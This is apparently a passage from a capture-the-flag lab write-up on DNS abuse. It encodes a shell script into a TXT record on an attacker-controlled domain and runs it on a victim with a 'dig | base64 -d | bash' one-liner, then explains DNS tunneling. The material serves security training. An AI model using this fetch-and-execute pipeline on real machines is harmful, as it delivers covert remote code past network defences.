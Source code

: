 1. First, we need to **encode the script**:

    ```shell
    # encoding the content of script.sh
    thm@victim2$ cat /tmp/script.sh | base64
    # IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=
    ```

2. Next, we can add it as a **TXT DNS record** to our domain, `tunnel.com`, by visiting `http://ATTACKER_IP`. 

    ![Adding TXT DNS record](dns-txt-subdomain.png)

    Once we have added it, we can confirm that the TXT DNS record was created by resolving the TXT record of `script.tunnel.com`:

    ```shell
    thm@victim2$ dig +short -t TXT script.tunnel.com
    # "IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="
    ```

3. Now, we can execute it as follows:

    ```shell
    thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
    ```
    As we know by now, the above command:
    1. Makes a DNS lookup for a TXT record for the domain `script.tunnel.com`.
    2. Removes double quotes, `"`, from the output.
    3. Decodes the base64 encoded text.
    4. Execute the decoded output.

To execute the content of `flag.tunnel.com` TXT record all we need to do is replacing `script.tunnel.com` with `flag.tunnel.com` in the above command:

![DNS Flag 2](dns-flag2.jpg)

### 7.4 DNS Tunneling

DNS tunneling, aka *TCP over DNS*, is a technique used to bypass network security measures by encapsulating non-DNS traffic within DNS packets. It involves:
1. **Encapsulation**: In DNS tunneling, non-DNS data or commands are hidden within DNS queries or responses. This can include binary data, text, or even executable code.
2. **Subdomain Creation**: The attacker creates subdomains under a malicious domain name they control (`tunnel.com`). Each subdomain represents a piece of the hidden data or a command.
3. **DNS Queries**: The attacker's malware generates DNS queries to these subdomains, effectively trasmitting the encapsulated data.
4. **DNS Server**: A malicious authoritative DNS server under the attacker's control receives these DNS queries.
5. **Data Extraction**: The malicious DNS server extracts the hidden data or executes the received commands. The response, if any, is then sent back to the attacker's malware.

